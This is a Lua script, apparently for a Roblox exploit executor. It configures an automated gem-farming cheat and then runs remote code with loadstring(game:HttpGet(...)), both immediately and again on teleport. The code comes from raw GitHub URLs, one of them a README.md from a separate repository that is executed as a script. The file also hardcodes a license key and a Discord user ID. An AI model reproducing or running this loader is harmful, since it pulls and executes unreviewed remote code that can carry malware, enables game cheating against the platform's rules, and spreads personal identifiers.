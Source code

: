 _G.RoyxSpecialMode = "Hell Factory";
_G["External Config"] = {
    ["Kai Gems"] = true, -- true / false
    ["Kai Story"] = false, -- true / false
    ["Kai Battle Pass"] = false, -- true / false
    ["Kai Infinity Castle"] = false, -- true / false
    ["Auto Set Resource"] = true, -- true / false
    ["Select End Game Mode"] = "Instant Leave", -- "Instant Leave" / "Auto Sell"
    ["End Wave"] = 10, -- number
    ["Maximum Added Gems"] = 60000, -- number
    ["Close Roblox When Maximum Added Gems"] = false, -- true / false
    ["Using Limit Farming"] = true, -- true / false
    ["Stop Farming When The Limit Is Reached"] = false, -- true / false
    ["Send Webhook When The Limit Is Reached"] = false, -- true / false
    ["Webhook Url"] = "", -- string
    ["RAM Port"] = "7963", -- string
    ["RAM Password"] = "", -- string
    ["RAM Private Server Url"] = "", -- string
    ["RAM Auto Description"] = true, -- true / false
    ["RAM Auto Private Server"] = false, -- true / false
    ["RAM Auto Exit"] = false, -- true / false
    ["Fps Limit"] = 15, -- number
    ["Lock Fps"] = true, -- true / false
    ["Release Fps When Rejoin"] = false, -- true / false
    ["Select Unit"] = {"Slot 1", "Slot 2", "Slot 3"}, -- table  {"Slot 1", "Slot 2", "Slot 3", "Slot 4", "Slot 5", "Slot 6"}
};
_G.Key = "176F0-OVPVZ-CESIB"
_G.DiscordId = "645595262114594817"

local Key = _G.Key
local DiscordId = _G.DiscordId

queue_on_teleport(string.format([[

    _G.Key = "%s"
    _G.DiscordId = "%s"
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/Roblox1/main/README.md"))()
]], Key, DiscordId))

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()

print("Executed!");
loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
